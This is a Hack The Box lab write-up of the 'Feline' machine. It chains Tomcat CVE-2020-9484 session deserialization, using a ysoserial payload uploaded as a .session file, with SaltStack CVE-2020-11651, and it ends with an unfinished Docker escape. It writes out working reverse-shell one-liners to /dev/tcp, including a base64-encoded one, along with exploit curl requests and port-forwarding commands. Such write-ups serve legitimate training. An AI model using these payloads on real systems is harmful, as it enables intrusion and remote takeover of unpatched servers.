



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.205 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T2 -oA scans/nmap.full 10.10.10.205`
```diff
PORT     STATE SERVICE VERSION
+ 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+ 8080/tcp open  http    Apache Tomcat 9.0.27
|_http-title: VirusBucket
```

* apache tomcat 9.0.27 running on port 8080

## Tomcat

* from `/service` get a file upload option.

+ Intercept the file upload request in burp



+ And get an error when send request with empty filename



- from error get file upload directory - 
```
/opt/samples/uploads
```

* get the error but dont't know what to do with it and don't find anythng else so i review tomcat 9 security reports to find anything relatesd to this error : https://tomcat.apache.org/security-9.html

* notice one fixed issue

**Fixed in Apache Tomcat 9.0.35**

* Important: Remote Code Execution via session persistence **[CVE-2020-9484](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484)**

* and why this, because it's point clearly says that - **an attacker is able to control the contents and name of a file on the server**

**vulnerability:** Apache Tomcat RCE by deserialization, **[redtimmy.com Article](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)**

## Exploit surface

**Prerequisites**

1. The `PersistentManager` is enabled and it’s using a `FileStore`
2. The attacker is able to upload a file with **arbitrary content**, has control over the filename and knows the location where it is uploaded
3. There are gadgets in the `classpath` that can be used for a Java deserialization attack

**Attack**

using a specifically crafted request, the attacker will be able to trigger remote code execution via deserialization of the file under their control.

**exploit**

* When Tomcat receives a HTTP request with a `JSESSIONID` cookie, it will ask the `Manager` to check if this session already exists. Because the attacker can control the value of `JSESSIONID` sent in the request, what would happen if he put something like `JSESSIONID=../../../../../../opt/samples/uploads/anything`

  * Tomcat requests the Manager to check if a session with session ID `../../../../../../opt/samples/uploads/anything` exists
  * It will first check if it has that session in memory.
  * It does not. But the currently running Manager is a `PersistentManager`, so it will also check if it has the session on **disk**.
  * It will check at location directory + sessionid + ".session", which evaluates to `./session/../../../../../../opt/samples/uploads/anything.session`
    * And here we need create create a malicious Java Runtime Environment serialized Object and upload as `.session` extention to exploit unsafe Java object deserialization vulnerability because when requesting it from `JSESSIONID` as cookie, `PersistentManager` check for session cookie in the disk and cookies are store with `.session` extention.

  * If the file exists, it will deserialize it and parse the session information from it

**Tool: [ysoserial](https://github.com/frohoff/ysoserial):** for generating payloads.

# User Exploit

**Reverse_shell:**
```bash
❯ echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```

**convert reverse shell into a java runtime executable:**
online tool for this is [here](http://jackson-t.ca/runtime-exec-payloads.html)
```bash
bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}
```

* Generate serialized object cookie with reverseshell -
```bash
❯ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > duck.session
❯ file duck.session
duck.session: Java serialization data, version 5
```
<!--
java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42My80MTQxIDA+JjE=}|{base64,-d}|{bash,-i}" > duck.session
-->

* Upload file - 
```bash
❯ curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@duck.session"
File uploaded successfully!
```

* open nc listener -
```
❯ nc -nvlp 4141
listening on [any] 4141 ...
```

* Executing reverse shell - 
```bash
╰─❯ curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/duck"
```

**Get tomcat shell**
```bash
❯ pwncat -lp 4141
[21:36:26] received connection from 10.10.10.205:33382                        connect.py:255
[21:36:32] new host w/ hash fc4ce837c64dfe9f096b06d0150a3288                   victim.py:321
[21:36:51] pwncat running in /usr/bin/bash                                     victim.py:354
[21:37:08] pwncat is ready 🐈                                                  victim.py:771

(remote) tomcat@VirusBucket:/$ cd
(remote) tomcat@VirusBucket:/home/tomcat$ id
uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
(remote) tomcat@VirusBucket:/home/tomcat$ cat user.txt 
28db6375************************
```

# Privesc Enumeration

* there are some port running on localhost -

```bash
(remote) tomcat@VirusBucket:/home/tomcat$ ss -lntp
State      Recv-Q     Send-Q              Local Address:Port          Peer Address:Port     Process                                                                                     
... [snip] ...
LISTEN     0          4096                    127.0.0.1:4505               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:4506               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:8000               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:36391              0.0.0.0:*                                                                                                    
 
```

* by default **saltstack** run on port 4505,4506 

**Saltstack** is Python-based, open-source software for event-driven IT automation, remote task execution, and configuration management.

**Found 2 CVEs** -

+ Authentication bypass vulnerabilities (CVE-2020-11651)
+ Directory traversal vulnerabilities (CVE-2020-11652)

**source: f-secure report:** [SaltStack authorization bypass](https://labs.f-secure.com/advisories/saltstack-authorization-bypass/)

**PoC_Script:** by [jasperla@github](https://github.com/jasperla/CVE-2020-11651-poc)

*while testing this script find out that the script requires python salt module which is not installed in the box*
```python
(remote) tomcat@VirusBucket:/tmp$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```
*so the script is not gonna work directly, First need to forward 4506 port in the local machine and install the salt module in my local machine.*

**Port forwarding** with [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz)

# Privesc

* forwarding port 4506 to my local machine -
```bash
./chisel client 10.10.14.43:4242 R:4506:127.0.0.1:4506
```

* start server -
```bash
./chisel server -p 4242 --reverse
```

* open a new nc listener - 
```
nc -nvlp 4343
```

* install salt module in my local macjine and run the script - 
```bash
❯ python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: cydg/5uledxv14SGDpmBbyebuAbZMKJjPTU9oAaF9Xeq6IflytJmJl25GejBnE0w51cDAUhYghA=
[+] Attemping to execute bash -c "bash -i >& /dev/tcp/10.10.14.43/4343 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20201222115325271998
```

# Docker Escape

* so what i get is a root shell but inside a docker not in the box itself.
* there is a `todo.txt` file in the root dir - 
```bash
root@2d24bf61767c:~# cat todo.txt
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

* i also notice one this in the root folder that the `.bash_history` is not set to `/dev/null`
```bash
-rw------- 1 root root 3368 Dec 22 12:01 .bash_history
```
* and cat the `.bash_history` file found some intresting data - 
```bash
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```json
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

* as we are docker root we can use docker sock to talk with host and execute commands in host,

*[privesc with docker sock](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) [2](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/)*


* another thing is that inside the that this docker container is running sshd - 

```bash
root@2d24bf61767c:~# ss -lntp
ss -lntp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port                                                                                                                               
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*        users:(("sshd",pid=9,fd=3))                                                    
LISTEN    0         128                   [::]:22                  [::]:*        users:(("sshd",pid=9,fd=4))
```

*[running ssh inside docker is bad](https://jpetazzo.github.io/2014/06/23/docker-ssh-considered-evil/)*


## Docker Exploit

- [ ] TODO: **gaining host root access using docker socket** *Machine Retired!*

**[ippsec solution](https://www.youtube.com/watch?v=2QdK7tQUFac&t=3530s)**